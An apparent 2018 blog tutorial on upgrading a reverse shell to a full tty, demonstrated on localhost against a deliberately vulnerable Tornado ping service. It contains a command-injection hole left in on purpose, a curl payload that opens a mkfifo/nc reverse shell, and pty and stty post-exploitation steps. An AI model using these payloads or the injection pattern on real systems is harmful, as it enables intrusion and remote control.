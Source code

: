 ```yaml
---
draft: false
date: 2018-09-08T12:00:00+00:00
title: Upgrading a reverse shell?
tags: shell, tty
aliases:
  - upgrading-a-reverse-shell.html
---
```


You've found a reverse shell but it's not behaving like a proper shell. You
can't run `su` because it requires a tty and you might not have a prompt. This
is my quick summary on my notes on upgrading a reverse shell to something
useful. If you want other ways (and this way is included) read the canonical
ropnop_ article as well.

Let's start with an easy and vulnerable application: a `ping` API. If you've
read my previous post you know that there is a command injection in this
script.

**Do not run scripts like these on your own machine as they are insecure.**

```python
import tornado.web
import tornado.ioloop

import subprocess


class PingAsAService(tornado.web.RequestHandler):
    def get(self):
        host = self.get_query_argument("host")
        ping = subprocess.check_output("ping {}".format(host), shell=True)
        return self.write(ping)


if __name__ == "__main__":
    app = tornado.web.Application([
        (r"/", PingAsAService),
    ])
    app.listen(8000, address="127.0.0.1")
    tornado.ioloop.IOLoop.current().start()
```

Using this service is pretty straightforward, passing it the `host` query
parameter will execute ping and return its output:

```
% python3 donotrunthis.py &
[1] 11479
% curl 'http://localhost:8000/?host=localhost'
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.039 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.039/0.039/0.039/0.000 ms
```

While getting a reverse shell is slightly out of scope for this post, here is
what I usually use. This one is from a well known cheatsheet_ and works for both
BSD and GNU nc.

## Open three terminals.

In one terminal where you don't run a terminal multipler setup your `nc` to
listen to a port. It is important that you don't run a terminal multiplexer
such as `screen` or `tmux` because we will be adjusting the terminal settings
and the mux will interfere.

```
% nc -lv 4242
Listening on [0.0.0.0] (family 0, port 4242)
```

This terminal will hang while waiting for a connection. In terminal two we'll
run our exploitable script. Let's not run it in the background as causing tty
input/output on a background job can cause the background process to be
paused.


```
& python3 donotrunthis.py
```

In the last terminal we will run our exploit. `curl` has a handy option of
escaping the URL parameters for you but you need to pass `-G` to explicitly
make the request a `GET`.

```
$ curl -Gv --data-urlencode 'host=localhost;rm /tmp/foo; mkfifo /tmp/foo; cat /tmp/foo | /bin/sh -i 2>&1 | nc localhost 4242 > /tmp/foo &' 'http://localhost:8000/'
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8000 (#0)
> GET /?host=localhost%3Brm%20%2Ftmp%2Ffoo%3B%20mkfifo%20%2Ftmp%2Ffoo%3B%20cat%20%2Ftmp%2Ffoo%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20localhost%204242%20%3E%20%2Ftmp%2Ffoo%20%26 HTTP/1.1
> Host: localhost:8000
> User-Agent: curl/7.58.0
> Accept: */*
>
```

This terminal will now hang here as our exploitable application never returns
any data. However, if we look over at our terminal with `nc` in it:

```
$ nc -lv 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from localhost 44040 received!
$
```

Our command injection has worked and is now connected to our netcat. But
this shell has a few issues! When we run a program and try to `ctrl+c` it our
netcat program exits. And trying to run `su` yields another error:

.. code-block:: text

    $ nc -lv 4242
    Listening on [0.0.0.0] (family 0, port 4242)
    Connection from localhost 44040 received!
    $ su -
    su: must be run from a terminal
    $

The reason of why is not relevant in this article but the gist is that your
command injection was not allocated a `pty`. We can work around that by
first gaining a pty using python.

```
$ nc -lv 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from localhost 44040 received!
$ su -
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/bash")'
user@hole:~$ whoami
whoami
user
user@hole:~$ su -
su -
Password: asdf

su: Authentication failure
```

Our shell gained a pty and with it a fancy prompt but everything we type is
being output and sadly using `ctrl+c` still exits our nc. Not the process on the
remote.

To fix this we're going to tell our own terminal to not interpret any command
sequences anymore.

First we `ctrl+z` which moves the current `nc` to the background. We then put
our own terminal in raw mode using `stty raw -echo`.

```
$ nc -lv 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from localhost 44040 received!
$ su -
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/bash")'
user@hole:~$ whoami
whoami
user
user@hole:~$ su -
su -
Password: asdf

su: Authentication failure

user@hole:~$ ^Z
[1]+  Stopped                 nc -lv 4242
$ stty raw -echo
```

After you enter this you will see nothing and your own keypresses won't be
shown anymore. Enter `fg` blindly to resume the netcat process after which
you will see output again as the pty you spawned earlier is now talking to your
terminal. This means the double output for keys is gone. For good measure
`reset` straight after the `fg` and let's see if everything is as it should
be.

This will clear the and possibly resize it for you. You now have a fully
functional reverse shell. You can run tmux or screen, or any other application
your heart desires.

.. _cheatsheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
.. _ropnop: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

